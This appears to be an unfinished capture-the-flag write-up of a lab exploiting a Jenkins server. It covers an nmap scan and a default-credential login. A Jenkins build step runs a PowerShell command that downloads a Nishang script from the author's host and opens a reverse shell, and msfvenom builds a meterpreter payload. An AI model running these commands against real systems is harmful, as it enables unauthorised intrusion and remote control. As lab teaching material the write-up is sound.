 ***STILL IN THE WORKS!***


Room: Alfred

Difficulty:

Overview:

------------------------------------------------------------------------------------------------------------------------------------------------------------------

First we need to scan for all open ports using nmap, but since the machine doesn't respond to ping (ICMP) we need to adjust the scan:

```
nmap  -Pn -A -p- 10.10.101.250 -T4

-Pn   → Because the machine don't respond to ping
-A    → Enable OS detection, version detection, script scanning, and traceroute
-p-   → Scan all ports
-T4   → To speed the scan (this loses some accuracy), otherwise it would take more time to complete.
```

![Alfred_nmap_scan](https://user-images.githubusercontent.com/76821053/118020693-4ae2cd80-b352-11eb-8f5c-5e8250883d63.png)

The http at port 8080 hosted a jenkins server. We can try default credentials and this one was pretty simple.

![jenkins_8080](https://user-images.githubusercontent.com/76821053/118023732-c8f4a380-b355-11eb-8ea8-ee409d9ddc01.png)

We can created a new project inside Jenkins. At configurations we have a field called Build that let us do commands, so we can use the powershell command given by the room:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

In my case i used the below command, where i change the ip and port to match my machine.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://My_IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress My_IP -Port 9001
```

To breakdown this command we can tell that the first part of the command will download a file from a specific website or server, in this case from my kali machine and the 
second part of the command tells the windows machine to execute it in order for us to get a reverse shell.

For this command to work and get a reverse shell on our machine we need to setup a few things:

-- Download Nishang "Invoke-PowerShellTcp.ps1" payload script provided by the room. Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security.

-- A python SimpleHTTPServer in order to host the file that the remote machine will try to donwload. We can do this by typing this command on a kali machine:

```
python -m SimpleHTTPServer
```

![pythonserver](https://user-images.githubusercontent.com/76821053/118032170-3fe26a00-b35f-11eb-919e-8483e5469701.png)

-- Start a netcat listener on the port we chose:

![nclistener](https://user-images.githubusercontent.com/76821053/118028995-9c438a80-b35b-11eb-8463-7b4c797b97d2.png)

After setting all up we just start a new project on jenkins server (in my case i called it admin), add the command to the build tab and just run it:   

![jenkinsproject](https://user-images.githubusercontent.com/76821053/118030688-88992380-b35d-11eb-89a6-74a434f02cb0.png)

We can see that the remote machine downloads the script and run it:

![pythonhttpserver](https://user-images.githubusercontent.com/76821053/118028046-85e8ff00-b35a-11eb-8d9c-32d510ae7b57.png)

Our listener recieves a reverse shell connection:

![image](https://user-images.githubusercontent.com/76821053/131248468-e25aedea-532e-4088-9712-9bd282dfeede.png)

To search for the flag or any specific file we can use the following command:

```
Get-ChildItem -Path C:\ -Recurse "user.txt" -ErrorAction SilentlyContinue

-Path  → Choose the path you want
-Recurse → To recursively search subdirectories  
-ErrorAction SilentlyContinue → To ignore errors
```

![image](https://user-images.githubusercontent.com/76821053/131248549-cfdf06bb-a839-4f28-9f46-be8db0b1e6e1.png)

We can now read the flag by using “type”:

![image](https://user-images.githubusercontent.com/76821053/131248555-010718a7-d90e-4611-bc37-c3073abb3be3.png)

Now let's upgrade our shell to a meterpreter one. To do so we need to create a payload:

```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -e x86/shikata_ga_nai -o payload.exe LHOST=YOUR_IP_ADDRESS LPORT=CHOOSE_A_PORT
```

![image](https://user-images.githubusercontent.com/76821053/131248679-423ff372-f126-427c-ac02-2d18f0380380.png)

In this case i created a meterpreter .exe payload encoded with shikata_ga_nai.

To upload this payload to the target machine we need once again to host this file in a http server:

![image](https://user-images.githubusercontent.com/76821053/131248806-8c6499d4-59d5-43bc-b641-eb9b2fa93b30.png)

From the target machine we can donwload it with this powershell command:

![image](https://user-images.githubusercontent.com/76821053/131248827-2a8bce17-1a89-454f-9763-41075d0aa7a1.png)

